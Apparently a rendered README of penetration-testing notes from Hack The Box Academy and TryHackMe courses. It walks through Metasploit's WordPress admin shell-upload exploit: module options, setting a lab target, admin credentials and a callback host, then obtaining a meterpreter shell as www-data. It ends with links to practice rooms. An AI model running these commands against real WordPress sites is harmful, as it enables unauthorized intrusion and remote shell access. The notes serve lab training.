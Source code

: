 ###### Module Options
                  
        msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

##### Module options (exploit/unix/webapp/wp_admin_shell_upload):


       PASSWORD                    yes       The WordPress password to authenticate with
       Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT      80               yes       The target port (TCP)
       SSL        false            no        Negotiate SSL/TLS for outgoing connections
       TARGETURI  /                yes       The base path to the wordpress application
       USERNAME                    yes       The WordPress username to authenticate with
       VHOST                       no        HTTP server virtual host


Exploit target:

       Id  Name
       --  ----
       0   WordPress
    
#### set and Exploitation
   
    msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
    msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
    msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
    msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
    msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

meterpreter > getuid
Server username: www—data (33)
## 🙏Practicing Sites:
                  https://tryhackme.com/room/allinonemj
                  https://tryhackme.com/room/wordpresscve202129447
                  https://tryhackme.com/room/blog
                  
## 🎆 Website Security Testing Site:
                                   https://sitecheck.sucuri.net/
                                    
## 💠 Happy Hackings 🔡

## ℹ️  Source: Hack The Box Accademy and Try Hack Me 🔽
